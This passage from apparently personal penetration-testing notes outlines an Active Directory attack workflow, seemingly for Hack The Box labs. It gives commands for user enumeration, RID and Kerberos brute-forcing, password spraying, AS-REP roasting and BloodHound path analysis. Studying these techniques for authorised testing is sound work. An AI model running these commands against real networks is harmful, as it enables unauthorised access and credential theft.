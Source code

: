    - manually for RPC with `enumdomusers` and `querydispinfo`

   - rid-bruting over SMB

     ```bash
     nxc smb <IP> -u "" -p "" --rid-brute 10000
     ```

   - Kerberos brute-forcing over ldap

     - Generate users: `usergen() [FULL_NAMES.txt]` 

       Wordlists:[Statistically Likely](https://github.com/insidetrust/statistically-likely-usernames) / Seclists Xato-Net + `Names.txt`

     - ```bash
       kerbrute userenum -d [DOMAIN] [USERS.txt] --dc [DC_IP]
       ```

4. Password spraying

   - Get password policy
     - smb: `nxc --pass-pol`
     - rpc `getdompwinfo`
   - nxc:
     - use `--continue-on-success` 
     - `--no-bruteforce` to try user user
     - test on all services

   

5. Get a session in WinRM

6. If you cannot, Kerberos Roasting: steal an hash

   ```bash
   GetNPUsers.py htb.local/ -usersfile user.txt -request -dc-ip 10.10.10.161 
   ```

7. Dump and analyze the database

   ```bash
   neostart   # Open a Neo4J server
   bloodhound # Open the bloodhound GUI 
   bloodhound-python -u user -p pass -ns dc_ip --domain domain -c All --zip --dns-tcp
   ```

8. In bloodhung:

   1. Upload
   2. search for the user you compromised -> right click -> mark as owned
   3. Outbound Object Control: click on everything
   4. On the graph, click on the interessant edges
   5. In Anlysis -> shortest path to High Value Targets




### NXC

Generic tool to navigate all the authentication protocols. The guide: https://www.netexec.wiki/
